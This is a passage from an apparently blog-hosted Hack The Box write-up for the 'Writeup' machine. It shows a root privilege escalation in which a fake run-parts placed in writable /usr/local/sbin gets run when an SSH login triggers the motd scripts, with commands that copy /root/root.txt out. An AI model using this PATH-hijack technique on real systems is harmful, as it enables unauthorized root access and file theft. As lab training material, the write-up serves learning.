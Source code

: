        lower-case letters, ASCII digits, ASCII underscores, and ASCII minus-hyphens.

       If the --lsbsysinit option is given, then the names must not end in .dpkg-old  or .dpkg-dist or .dpkg-new or .dpkg-tmp, and must
       belong  to  one  or  more  of  the  following  namespaces: the LANANA-assigned namespace (^[a-z0-9]+$); the LSB hierarchical and
       reserved namespaces (^_?([a-z0-9_.]+-)+[a-z0-9]+$); and the Debian cron script namespace (^[a-zA-Z0-9_-]+$).

	  ...
       --lsbsysinit
              use LSB namespaces instead of classical behavior.
{% endhighlight %}

<p>"run scripts or programs in a directory" huh? That sounds amazingly like something we would want to happen. If we could add our own script within <code>/etc/update-motd.d</code> we could trigger it to be executed by root anytime someone ssh'd in to the host. Unfortunately we did not have write capabilities to that folder as jkr and after beating my head against the keyboard for a few minutes I took a step back.</p>

<p>That's when I realized my mistake... take a look at the pspy output again. How is run-parts being run? Explicit location or...relative location! Since we know exactly what <code>PATH</code> is being set to all we have to do is write our own run-parts in one of the PATH locations prior to its regular location. While we didn't have read entitlements at <code>/usr/local/sbin</code> we did have write entitlements. Since I knew the location of the root flag I decided to skip doing anything fancy like a reverse shell and K.I.S.S.</p>

{% highlight python %}
jkr@writeup:/usr/local$ touch sbin/run-parts
jkr@writeup:/usr/local$ echo "cat /root/root.txt > /var/tmp/sneaky.txt" > sbin/run-parts
jkr@writeup:/usr/local$ chmod +x sbin/run-parts
{% endhighlight %}

<p>Now simply open a new terminal and let's hope that everything went smoothly.</p>

{% highlight python %}
jkr@writeup:/var/tmp$ ls -latr
total 12
drwxr-xr-x 12 root root 4096 Apr 19 04:24 ..
drwxrwxrwt  2 root root 4096 Oct  1 17:12 .
-rw-r--r--  1 root root   33 Oct  1 17:12 sneaky.txt
jkr@writeup:/var/tmp$ cat sneaky.txt 
eeba47**********************
{% endhighlight %}

<p>And just like that Writeup is officially in the books.</p>

<h1>Extra fun</h1>

<p>At some point during the pspy enumeration phase I captured what I can only assume was someone utterly exasperated. Unfortunately for them I was too busy trying to get to the end of this box.<p>

<p align="center">
<img src="{{ '/assets/htb-writeup/womp1.PNG' | relative_url }}">
</p>

<p>Thanks folks. Until next time.</p>


